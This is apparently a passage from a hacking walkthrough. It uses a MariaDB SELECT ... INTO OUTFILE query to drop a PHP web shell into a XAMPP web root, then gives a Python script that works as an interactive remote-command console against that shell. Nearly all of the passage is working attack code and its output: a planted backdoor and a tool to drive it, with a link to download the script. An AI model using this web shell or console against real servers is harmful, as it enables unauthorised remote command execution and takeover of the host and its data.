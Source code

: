 ```sql
MariaDB [(none)]> select '<?php echo shell_exec($_GET["cmd"]); ?>' into outfile 'C:/xampp/htdocs/dashboard/pawned.php';
Query OK, 1 row affected (0,238 sec)

MariaDB [(none)]> 
```

![alt text](/4.png)

- 10. Python script to execute RCE and getting the shell, you cand download the script from my [Github](https://github.com/b4dScript/pseudo-RCE):

```python
import requests
import argparse
import os
import urllib.parse



ROJO = "\033[31m"
VERDE = "\033[32m"
AZUL = "\033[34m"
RESET = "\033[0m"



def clear():
    os.system('clear')


def send_command(path):
    while True:
        command = urllib.parse.quote(input(f"{ROJO}RCE{RESET} {AZUL}${RESET}{VERDE}>>{RESET} "))

        pwned = f'{path}?cmd={command}'

        try:
            response = requests.get(pwned)

            if response.status_code == 200 and len(response.text)>= 1:
                clear()
                print(response.text)
                
            else:
                print(f"Estatus code error: {response.status_code}, Or there's no output")

        except KeyboardInterrupt:
            print(f"exiting ...")


def main():

    parser = argparse.ArgumentParser(description="RCE Pseudo console")

    parser.add_argument('-p','--path',type=str,required=True,help='Url Path of the file')

    args = parser.parse_args()

    send_command(args.path)


if __name__ == "__main__":
    main()
```